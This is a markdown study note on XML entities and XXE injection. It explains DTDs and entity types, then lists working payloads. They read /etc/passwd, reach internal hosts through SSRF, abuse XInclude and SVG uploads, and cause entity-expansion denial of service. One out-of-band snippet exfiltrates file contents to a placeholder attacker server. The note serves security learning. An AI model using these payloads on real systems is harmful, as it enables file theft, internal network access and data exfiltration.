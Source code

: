 >[!info]
>- Allows an attacker to interfere with an application's processing of XML data.
>- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
----
# XML Entities

>[!question] What is XML?
>- `XML` stands for "extensible markup language".
>- `XML` is a language designed for storing and transporting data.
>- `XML` uses a tree-like structure of tags and data.
>- Unlike `HTML`, `XML` does not use predefined tags. 

>[!question] What are XML entities?
>- `XML` entities are a way of representing an item of data within an `XML` document, instead of using the data itself.
>- Various entities are built in to the specification of the `XML` language.

>[!question] What is document type definition?
>- The `document type definition (DTD)` contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items.
>- The `DTD` is declared within the optional `DOCTYPE` element at the start of the `XML` document.
>- The `DTD` can be fully self-contained within the document itself (`Internal DTD`) or can be loaded from elsewhere (`External DTD`) or can be hybrid of the two.
----
>[!info] Main XML Entities
>
>>[!example] Predefined Entities  
>>These are built-in entities in `XML` that represent special characters:
>>- `&lt;` --> Represents the `<` character.
>>- `&gt;` --> Represents the `>` character.
>>- `&amp;` --> Represents the `&` character.
>>- `&apos;` --> Represents the `'` character.
>>- `&quot;` --> Represents the `"` character.
>
>>[!example] Custom Entities
>>These are user-defined entities declared in the `Document Type Definition (DTD)`:
>>```xml
>><!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
>>```
>>This definition means that any usage of the entity reference `&myentity;` within the `XML` document will be replaced with the defined value: "`my entity value`".
>
>>[!example] External Entities
>>`XML` external entities are a type of custom entity whose definition is located outside of the `DTD` where they are declared.
>>The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` or file from which the value of the entity should be loaded:
>>```xml
>><!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
>>```
>>```xml
>><!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
>>```
>
>>[!example] Parameter Entities
>>These are used exclusively within `DTDs` and are prefixed with a `%`:
>>```xml
>><!ENTITY % paramEntity "This is a parameter entity">
>>```
>
>>[!example] General Entities
>>These are the most common type of entities and are referenced in the `XML` document body:
>>```xml
>><!ENTITY generalEntity "This is a general entity">
>>```
>
>>[!example] Internal Entities
>>These entities are defined within the `DTD` and do not reference external resources:
>>```xml
>><!ENTITY internalEntity "This is an internal entity">
>>```
----
# XXE

>[!warning] How do XXE vulnerabilities arise?
>- Some applications use the `XML` format to transmit data between the browser and the server.
>- Applications that do this virtually always use a standard library or platform `API` to process the `XML` data on the server.
>- `XXE` vulnerabilities arise because the `XML` specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

>[!bug] XXE-Specific Entities
>
>>[!danger] File Retrieval
>>To perform an `XXE injection` that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted `XML` in two ways:
>>- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
>>- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
>>```xml
>><?xml version="1.0" encoding="UTF-8"?>
>><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
>><stockCheck><productId>&xxe;</productId></stockCheck>
>>```
>>
>>>[!tip]
>>>- With real-world `XXE` vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response.
>>>- To test systematically for `XXE` vulnerabilities, you will generally need to test each data node in the `XML` individually, by making use of your defined entity and seeing whether it appears within the response.
>
>>[!danger] Server-Side Request Forgery
>>Server-side application can be induced to make `HTTP` requests to any `URL` that the server can access.
>>- Define an external `XML` entity using the `URL` that you want to target, and use the defined entity within a data value.
>>- If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the `URL` within the application's response, and so gain two-way interaction with the back-end system.
>>- If not, then you will only be able to perform blind `SSRF` attacks.
>>```xml
>><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
>>```
>
>>[!danger] XInclude attacks
>>`XInclude` is a part of the XML specification that allows an `XML` document to be built from sub-documents.
>>- You can place an `XInclude` attack within any data value in an `XML` document.
>>- The attack can be performed in situations where you only control a single item of data that is placed into a server-side `XML` document.
>>- To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include.
>>```xml
>><foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
>>```
>>```
>>%3Cfoo%20xmlns%3Axi%3D%22http%3A%2F%2Fwww.w3.org%2F2001%2FXInclude%22%3E%3Cxi%3Ainclude%20parse%3D%22text%22%20href%3D%22file%3A%2F%2F%2Fetc%2Fpasswd%22%2F%3E%3C%2Ffoo%3E
>>```
>
>>[!danger] File upload
>>Some common file formats use `XML` or contain `XML` subcomponents.
>>- Examples of `XML-based` formats are office document formats like `DOCX` and image formats like `SVG`.
>>```xml
>><?xml version="1.0" standalone="no"?>
>><!DOCTYPE svg [
>>  <!ENTITY xxe SYSTEM "file:///etc/hostname" >
>>]>
>><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
>>  <text font-size="16" x="0" y="16">&xxe;</text>
>></svg>
>>```
>
>>[!danger] Denial of Service
>>Exploiting entities to cause resource exhaustion:
>>```xml
>><!ENTITY lol "lol">
>><!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
>><!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
>>```

>[!important]
>Most `POST` requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including `XML`.
>- For example, if a normal request contains the following:
>```
>POST /action HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 7
>foo=bar
>```
>- Then you might be able submit the following request, with the same result:
>```
>POST /action HTTP/1.0
>Content-Type: text/xml
>Content-Length: 52
><?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
>```
----
## Blind XXE

https://portswigger.net/web-security/xxe/blind

>[!danger] Out-of-Band Data Exfiltration
>Using external entities to exfiltrate data to an external server:
>```xml
><!ENTITY % payload SYSTEM "file:///etc/passwd">
><!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker-server/?data=%payload;'>">
>```


